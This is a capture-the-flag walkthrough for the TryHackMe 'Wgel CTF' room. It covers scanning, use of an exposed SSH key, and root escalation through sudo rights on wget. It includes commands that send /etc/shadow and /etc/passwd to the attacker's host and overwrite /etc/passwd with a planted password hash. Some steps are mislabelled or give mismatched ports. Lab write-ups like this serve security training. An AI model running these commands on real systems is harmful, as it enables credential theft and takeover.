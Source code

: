 # Wgel CTF

**Room Link:** [https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)





## Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

On the main page of the site it was just a apache default page but in the source we can see someone named jessie making a comment.

<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

Ran gobuster and found a site under sitemap, nothing really interesting about it when browsing.

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

gobuster wasn't really able to find anything interesting.

**Kali**

```
gobuster dir -u http://$VICTIM/sitemap/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

Ran dirb with defaults and it found a .ssh folder which has a id\_rsa so I downloaded and used it.

**Kali**

```
dirb http://$VICTIM/sitemap/
```

<figure><img src="../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600 id_rsa
ssh -v -i id_rsa  jessie@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

I tried cracking jessies hash as I would then be able to run any command with sudo but I couldn't crack it, documenting it anyways.

**Victim**

```
sudo -u root /usr/bin/wget --post-file=/etc/shadow $KALI:4444
sudo -u root /usr/bin/wget --post-file=/etc/passwd $KALI:4444
```

**Victim**

```
nc -lvnp 4444
```

**Victim**

```
unshadow passwd.txt shadow.txt > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```



Instead I  changed the passwd file, I first downloaded to kali and changed the line for jessie so their password is now '123'. Then I uploaded it back and just became root.

**Victim**&#x20;

```
sudo -u root /usr/bin/wget --post-file=/etc/passwd 10.10.65.21:4444
```

**Kali**&#x20;

```
nc -lvnp 4444
```

**Line to change**

```
jessie:$1$new$p7ptkEKU1HnaHpRtzNizS1:1000:1000:jessie,,,:/home/jessie:/bin/bash

```

<figure><img src="../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Victim**

```
sudo wget http://$KALI:8/passwd -O /etc/passwd
sudo -i
```

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

